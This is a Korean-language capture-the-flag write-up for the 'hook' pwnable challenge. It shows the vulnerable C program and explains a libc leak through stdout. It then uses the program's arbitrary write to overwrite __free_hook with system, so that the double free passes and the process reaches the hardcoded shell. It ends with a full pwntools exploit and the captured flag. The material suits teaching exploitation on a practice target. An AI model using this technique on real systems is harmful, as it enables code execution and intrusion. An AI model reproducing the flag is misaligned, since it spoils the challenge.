



# S4 · hook

### 1. 문제 확인

<p align="center">
  
</p>

### 2. 코드

```c
// gcc -o hook hook.c -Wl,-z,norelro
int main(int argc, char *argv[]) {
  long *ptr;
  size_t size;

  initialize();

  printf("stdout: %p\n", stdout);   // ① libc 주소 leak

  printf("Size: ");
  scanf("%ld", &size);              // ② malloc 크기 입력

  ptr = malloc(size);

  printf("Data: ");
  read(0, ptr, size);               // ③ ptr 버퍼에 데이터 입력

  *(long *)*ptr = *(ptr+1);         // ④ 임의 주소 쓰기

  free(ptr);                        // ⑤ free 두 번
  free(ptr);

  system("/bin/sh");                // ⑥ 코드에 박힌 셸
  return 0;
}
```

문제가 주는 수단은 세 가지다.
- **①** `printf("stdout: %p")` — stdout 주소를 흘려 libc base를 구할 수 있는 leak
- **④** `*(long *)*ptr = *(ptr+1)` — 원하는 주소에 원하는 값을 쓰는 임의 주소 쓰기 한 번
- **⑤** `free(ptr); free(ptr)` — 같은 포인터 두 번 해제(double free)

코드 맨 끝에 `system("/bin/sh")`이 이미 있다. 그래서 목표는 "셸을 만드는 것"이 아니라 **⑤의 double free로 죽지 않고 ⑥까지 살아서 도달하는 것**이다.

### 3. libc leak — stdout으로 base 역산

`printf("stdout: %p")`가 stdout의 런타임 주소를 출력한다. stdout은 libc 안의 `_IO_2_1_stdout_`이고, libc 파일 안에서의 offset은 고정이라 base를 거꾸로 구할 수 있다. ASLR로 base는 매 실행마다 바뀌므로 런타임에 받아야 한다.

```python
p.recvuntil(b"stdout: ")
leak = int(p.recvline().strip(), 16)
libc.address = leak - libc.symbols["_IO_2_1_stdout_"]   # base 세팅

free_hook = libc.symbols["__free_hook"]
system    = libc.symbols["system"]
```

`libc.address`에 base를 넣어두면 그 뒤 `libc.symbols[...]`가 전부 실제 주소로 계산된다.

### 4. 입력 두 개를 이렇게 보내는 이유

```python
p.sendlineafter(b"Size: ", b"16")
p.sendafter(b"Data: ", p64(free_hook) + p64(system))
```

**첫 줄 `sendlineafter(b"Size: ", b"16")`**
- `Size: ` 프롬프트까지 기다렸다가 `16`을 보냄
- `scanf("%ld", &size)`가 받아 `size = 16` → `malloc(16)`로 16바이트 버퍼 확보, ptr이 그곳을 가리킴
- 16인 이유: 넣을 데이터가 주소 8 + 주소 8 = 딱 16바이트라 더 받을 필요가 없다
- `scanf`는 숫자라 개행으로 입력을 끊어야 해서 `sendline`(끝에 `\n`)

**둘째 줄 `sendafter(b"Data: ", p64(free_hook) + p64(system))`**
- `read(0, ptr, 16)`이 이 16바이트를 버퍼에 그대로 쓴다
- `p64(free_hook)` = free_hook 주소 8바이트 → 버퍼 앞 8칸 = `ptr[0]`
- `p64(system)` = system 주소 8바이트 → 버퍼 뒤 8칸 = `ptr[1]`
- 결과 버퍼 = `[free_hook 주소][system 주소]`
- `read`는 바이트 16개를 정확히 받아야 하므로 개행을 붙이면 안 된다(주소 바이트에 `\x0a`가 끼면 틀어짐) → `send`

이렇게 보내는 이유는 바로 다음 줄 `*(long *)*ptr = *(ptr+1)` 때문이다.
- `*ptr` = `ptr[0]` = free_hook 주소 → **어디에 쓸지**
- `*(ptr+1)` = `ptr[1]` = system 주소 → **뭘 쓸지**
- → `*(free_hook 주소) = system` → **`__free_hook`에 system 주소가 기록된다**

즉 `[쓸 주소][쓸 값]` 순서로 버퍼를 채운 거고, 이 한 줄이 그 둘을 꺼내 `__free_hook = system`을 만든다.

### 5. free 두 번이 정상 실행되지 않는 이유

`free()`는 호출되면 둘 중 하나로 간다.
1. `__free_hook`에 값이 있으면 → 그 값을 함수로 보고 부르고 **바로 끝**
2. `__free_hook`이 비어있으면(기본) → **원래 해제 과정**을 돌림

double free로 죽는(`double free or corruption`) 코드는 **2번, 원래 해제 과정 안**에 들어있다. 같은 걸 두 번 해제하려 하면 거기서 걸려 abort한다.

그런데 ④에서 `__free_hook`에 system을 써뒀으니, 이제 free는 **무조건 1번**으로 간다. 그리고 free는 hook을 부를 때 **자기가 받은 인자를 그대로 넘긴다.**

```
free(ptr)  →  __free_hook(ptr)  →  system(ptr)
```

- **첫 `free(ptr)`** → `__free_hook` 있음 → `system(ptr)` → ptr 버퍼 앞부분(주소 바이트)을 명령어로 해석 → 쓰레기라 실패하지만 **그냥 리턴**
- **둘째 `free(ptr)`** → 똑같이 `system(ptr)` → 리턴

둘 다 **원래 해제 과정(2번)을 안 거쳤다.**
그래서 두 free를 지나 코드 끝 **`system("/bin/sh")`에 도달 → 셸**이 열린다.

### 6. 익스플로잇 코드

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *

p = remote("host3.dreamhack.games", 10122)
libc = ELF("./libc-2.23.so", checksec=False)

# [1] stdout leak → libc base
p.recvuntil(b"stdout: ")
leak = int(p.recvline().strip(), 16)
libc.address = leak - libc.symbols["_IO_2_1_stdout_"]

free_hook = libc.symbols["__free_hook"]
system    = libc.symbols["system"]

# [2] __free_hook = system
p.sendlineafter(b"Size: ", b"16")
p.sendafter(b"Data: ", p64(free_hook) + p64(system))

# free(ptr) → system(ptr) 두 번(쓰레기) 리턴 → system("/bin/sh") → 셸
p.interactive()
```

### 7. 실행 결과

stdout leak으로 libc base를 구하고(`0x7f65a6a2d000`), `__free_hook`을 system으로 덮은 뒤 두 free를 통과해 `system("/bin/sh")`로 셸을 열어 `cat flag`로 FLAG를 획득한다.

<p align="center">
  
</p>

```text
DH{c5e5c5c0a45d71d2666571ab2dc09cf4c4e750402ab4bb4c8a57091063ee7418}
```
